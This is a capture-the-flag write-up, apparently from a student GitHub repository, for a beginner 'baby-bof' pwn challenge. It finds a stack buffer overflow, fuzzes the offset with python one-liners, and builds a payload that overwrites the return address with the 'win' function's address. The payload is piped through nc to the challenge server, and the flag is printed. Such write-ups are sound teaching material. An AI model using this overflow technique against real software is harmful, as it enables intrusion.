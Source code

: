 # baby-bof
This is your first pwn challenge.

- This was the easier because it was just a ``buffer overflow`` type of pwn.

- A bit of reverse we are just inspecting what are we dealing with:

# Main
![main](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/main.png)

# Vuln
![vuln](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/vuln.png)

# Win
![win-func](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win-fun.png)

- We see that variable ``local_48`` has a limit of 64, but the program can read max of 0x100 (256 decimal) bytes.
- At this point we just need to write a python script to overwhelm the variable and redirect the flow to any function we want.

- Let's start with attaching gdb to the program:

![gdb](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/gdb.png)

- Then we execute a python code to see how the program reacts with 63 A's:

![63a](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63)"
```

- Seems like the program didn't crash so we are at the limit. Let's change a bit and add some B's:

![63a10b](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a10b.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10)"
```

- Oh, we got a crash. Did we manage to control the flow? Let's add some C's just to be sure:

![63a10b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/64a10b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*10 + b'C'*5)"
```

- Bingo! Now we control the flow and we can see by the address ``0x43434343434...`` which is the ascii code of the letter ``C``. But something is not right, because we don't have a clean address of 43's, so in that matter let's substract a B to see if something changes.

![63a9b5c](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/64a9b5c.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'C'*5)"
```

- There we go! now all we have to do just to pass the address of the function we want to access, which is going to be ``win``.
- But first we need to tranform it from Big Edian to Little Edian, which is going to be a "reversed" version of the address:

![win](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/win.png)

- Big Edian:
```
0x40 0x11 0x96
```
- Little Edian:
```
0x96 0x11 0x40
```

- Now let's test our final script:

![63a9bwinaddr](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/63a9bwin_address.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')"
```

- GG! We succesfully called ``win``. Let's do a final step and pass it to the ``nc`` to get our flag:

![final](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/baby-bof/final.png)

```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*63 + b'B'*9 + b'\x96\x11\x40')" | nc ctf.ac.upt.ro 9796
```

- Flag: ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}

